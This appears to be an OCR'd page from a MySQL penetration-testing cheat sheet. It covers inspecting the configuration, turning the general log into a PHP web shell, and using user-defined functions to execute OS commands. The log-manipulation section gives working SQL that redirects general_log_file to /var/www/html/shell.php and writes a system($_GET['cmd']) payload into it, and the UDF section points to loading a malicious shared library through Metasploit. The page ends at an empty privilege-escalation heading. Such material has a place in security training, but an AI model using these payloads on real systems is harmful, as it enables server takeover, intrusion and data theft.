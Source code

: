 ## Configuration Analysis

**Check MySQL configuration:**
```sql
SHOW variables;
SHOW variables LIKE 'secure_file_priv';
SHOW variables LIKE 'version%';
```

**Dangerous settings to look for:**
- secure_file_priv = '' (empty, allows file ops anywhere)
- general_log enabled with writable location
- Weak authentication requirements

## Log File Manipulation

**Enable general log:**
```sql
SET GLOBAL general_log = 'ON';
SET GLOBAL general_log_file = '/var/www/html/shell.php';
```

**Execute query to write to log:**
```sql
SELECT '<?php system($_GET["cmd"]); ?>';
```

**Disable logging:**
```sql
SET GLOBAL general_log = 'OFF';
```

**Result:**
Log file at /var/www/html/shell.php contains PHP code and can be executed as web shell.

## UDF (User Defined Function) Exploitation

**What is UDF:**
Custom functions loaded from shared libraries. If you can upload a malicious .so file, you can execute OS commands.

**Check for existing UDFs:**
```sql
SELECT * FROM mysql.func;
```

**Creating UDF for command execution:**
Requires:
- Root privileges
- Ability to write .so file to MySQL plugin directory
- FILE privilege

**Advanced technique:** Use Metasploit's mysql_udf_payload or manual UDF creation.

## Privilege Escalation
